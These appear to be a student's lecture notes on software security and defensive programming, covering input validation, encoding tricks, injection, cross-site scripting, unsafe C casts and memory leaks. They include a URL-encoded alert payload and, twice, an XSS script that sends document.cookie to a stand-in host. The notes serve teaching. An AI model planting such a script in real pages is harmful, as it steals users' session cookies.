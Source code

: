 # Software Security
Preventing vulnerabilities is the best fix available.
However that's not always possible because developers sometimes are monkeys (*me included*).
**Software security** is the practice to write **safe code** and handling correctly I/O to prevent vulnerabilities to occur.
## Terminology
- Prevention
  Improved methods for specifying and building software.
- Detection
  Efficient testing techniques.
- Mitigation
  Resilient architecture, *see defense in depth.*
## CWE TOP 10
A list of the most dangerous and common vulnerabilities.
## Defensive programming
Designing and implementing software so that it **keeps working** even under attack; it should detect erroneous conditions (attack attempts) and either:
- Fail gracefully
- Keep working **safely**
Usually developers focus on *the shit is working*, instead of *the shit is safe*.
Translating this: 
Developers **focus on steps for success** rather than considering all
possible points of failures. Security is not granted, it can't be achieved if not in the design.
Defensive programming requires knowledge and awareness of what happens if a system is vulnerable, common attack techniques.
### Golden rule for defensive programming
Don't assume anything and handle error states.
# How to do defensive programming
## Handle program input
As previously said, don't assume the validity of input.
**Check the constraints and the validity of input** (e.g. check the array size, an array of size -123168 is *probably* invalid).
### Input interpreting
Sometimes, different charset mess things up.
An input like `hello%2Fscript%3Ealert(1)%3Cscript` might bypass input validation but execute as `<script>alert(1)</script>` after decoding.
### What happens if this step fails
The attacker injects a malicious payload to affect the flow of execution (expected behavior) of the program, sounds like [[Lezione10#SQL Injection|SQL Injection]].
Other type of attack include:
- Code injection (shell-codes)
- File inclusion attacks
### Cross-site scripting (XSS)
Browser usually limit script access to pages that belong to the same site; however that content is trusted. What if an user can post a malicious snippet of code and make it render on the page? *Disaster*
Example: a comment like
```html
Thanks for this information, it’s great! 
<script>
document.location='http://hacker.web.site/cookie.cgi?'+document.cookie 
</script>
```
Well shit, what can a developer do?
- Whitelist/Blacklist mechanism
  Allow only specified set of characters/words, often by using regular expressions (regex).
## Writing safe code
Writing correct implementations, like a proper random number generator.
- Use strongly typed languages when possible, they ensure data consistency. C is funny but it leads to **too much freedom**, example:
```c
int main() {
    // Declare a function pointer
    void (*func_ptr)() = (void (*)())&func_ptr;

    // Call the "function"
    func_ptr();

    return 0;
}
```
Basically you can cast anything to everything (a dog can be a cat, crazy.)
Data should be interpreted consistently to prevent inappropriate
manipulation, leading to flaws/bugs like the previous code. These bugs might be exploited to crash the program or subvert execution.
### Correctly using memory
Programs often allocate memory on the heap. Memory should be released when the tasks have been performed. Else, a memory leak can happen, that is: incorrect use of memory might steadily increase memory allocation, exhausting it.
## Handling interaction
**Environment variables**: a collection of string values inherited by each process from its parent that can affect the way a running process behaves.

--- 
# Summary
## Overview
Software security involves writing **safe code** and correctly handling input/output to prevent vulnerabilities. While preventing vulnerabilities is ideal, it requires proactive measures in design, implementation, and maintenance.
## Key Terminology
1. **Prevention**: Techniques to specify and build secure software.
2. **Detection**: Effective testing methods to find vulnerabilities.
3. **Mitigation**: Building resilient architectures (e.g., defense in depth).
## CWE Top 10
A list of the most dangerous and common software vulnerabilities, highlighting key areas where developers should focus.
## Defensive Programming
### Principles
- Software must continue to work safely, even under attack.
- Detect erroneous conditions (e.g., attacks) and either:
  - Fail gracefully.
  - Operate securely.
### Common Developer Mindset
- Developers often prioritize functionality ("it works") over security ("it’s safe").
- Defensive programming demands anticipation of failures and awareness of vulnerabilities.
### Golden Rule
**Do not assume anything**; handle all potential error states.
## How to Implement Defensive Programming
### 1. Handle Program Input
- Always validate inputs for constraints and correctness (e.g., array size must be valid).
#### Input Interpreting
- Encoding mismatches can bypass validation (e.g., `hello%2Fscript%3Ealert(1)%3Cscript` decoding to `<script>alert(1)</script>`).
#### Consequences of Failure
- Vulnerabilities such as:
  - **Code Injection**: Arbitrary code execution.
  - **File Inclusion Attacks**: Inserting malicious files.
  - **Cross-Site Scripting (XSS)**: Malicious scripts rendered on trusted pages.
    - Example:
      ```html
      <script>
      document.location='http://hacker.web.site/cookie.cgi?'+document.cookie
      </script>
      ```
    - **Countermeasure**: Use whitelisting/blacklisting mechanisms (e.g., regular expressions).
### 2. Writing Safe Code
- Use strongly typed languages to ensure data consistency.
- Avoid risky constructs (e.g., casting pointers in C):
  ```c
  int main() {
      void (*func_ptr)() = (void (*)())&func_ptr;
      func_ptr();
      return 0;
  }
```
#### Memory Management
- Release memory after use to prevent **memory leaks**.
- Improper memory handling can lead to exhaustion or exploitation.
### Handling Interaction
- **Environment Variables**:
    - Inherited by processes and influence program behavior.
    - Handle them securely to prevent unintended modifications.